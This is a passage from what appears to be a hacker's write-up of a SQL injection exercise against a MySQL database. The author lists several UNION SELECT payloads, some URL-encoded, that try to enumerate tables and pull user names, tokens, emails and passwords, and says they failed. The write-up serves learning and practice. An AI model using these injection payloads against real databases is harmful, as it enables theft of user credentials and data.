 Fun stuff, but I want to see the table names so I could reference any other tables.

## The Section in Which I Fumble Around Trying to Find Out What to Do

In my attempts to further enumerate the database, I did what most sensible hackers would do when presented with a MySQL database that I have very little visibility to: I attempted to enumerate the `mysql` database, or the `information_schema` database, both of which wound up being a fruitless endeavor.

The following weird attempts didn't seem to work!

`union%20select%20*%20from%20(select%201)UT1%20JOIN%20(SELECT%20table_name%20FROM%20mysql.innodb_table_stats)UT2%20on%201=1`

`UNION SELECT * FROM (SELECT 1)a JOIN (SELECT name from users where id = 1)b JOIN (select token from users where id = 1)c JOIN (SELECT email from users where id = 1)d JOIN (SELECT password from users where id = 1)e JOIN (SELECT 6)f JOIN (SELECT 7)g`

` union select * from (select 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g on 1=1 -- -`

`union select * from (select 1)a JOIN (SELECT 2)b JOIN (select `1` from (select 1 union select name from users limit 1))c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g on 1=1 -- -`

select `1` from select

It was so bad that the best way I discovered to work on my SQL Injection skills was to build a MySQL database in a Docker container and attempt to create a very similar schema with contrived data built-in.
